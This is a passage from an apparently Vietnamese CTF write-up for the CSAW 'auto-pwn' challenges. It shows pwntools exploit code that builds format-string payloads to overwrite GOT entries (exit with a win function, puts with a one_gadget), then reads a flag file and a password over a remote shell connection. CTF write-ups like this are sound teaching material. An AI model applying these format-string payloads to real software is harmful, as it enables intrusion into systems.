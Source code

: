 ```

    got_exit = elf.symbols['got.exit']
    win = elf.symbols['win'] - 0x08040000
    payload = b'AA'
    payload += b'%' #40558c' #40560 40855c
    payload +=  str(win-2).encode('utf-8')#leak-2)
    payload += b'c'
    payload += b'%10$hn'
    payload = payload.ljust(0x10 + 2, b'A')
    payload += p64(got_exit)
    p.sendlineafter("> ",payload)


    p.sendline("cat message.txt")
    p.recvuntil("auto-pwn.chal.csaw.io ")
    port = int(p.recv(5),10)

    p.recvuntil("password ")
    passw = p.recv(32)
    print(passw)
    os.system("rm -r done_file")
p.interactive()

```
Ở level2 cách thức cũng  giống như trên nhưng tác giả sẽ đổi binary với cách khai thác giống  đến challenge 46. Ở lv2 thì tác giả chuyển sang file binary 64 bit. Ở loại challenge này có lỗi format string gần giống như trên  mình overwrite got_puts bằng one_gadget (chỉ 3 byte cuối). Code khai thác level2 (từ 31 -> 46):

```
from pwn import *
import os

libc = ELF("./libc6_2.24-11+deb9u4_amd64.so")
passw = '676b8b041ae5640ba189fe0fa12a0fe3'
port = 11031
context.clear(arch = 'amd64')

while(1):
    p = remote("auto-pwn.chal.csaw.io",port)


    p.sendlineafter("> ",passw)

    p.recvline()
    p.recvline()
    p.recvline()

    leak = p.recvuntil("-------------------------------------------------------------------\n")[:-68]
    open('challenge', 'wb').write(leak)
    os.system("cat challenge | xxd -r > done_file")

    elf = ELF("./chall31")
    addre_ret = 0x000000000401A98
    need = 0x1a98

    exit = elf.symbols['got.exit']
    fgets = elf.symbols['got.fgets']
    printf = elf.symbols['got.printf']
    puts = elf.symbols['got.puts']
    fflush = elf.symbols['got.fflush']

    #off = 6
```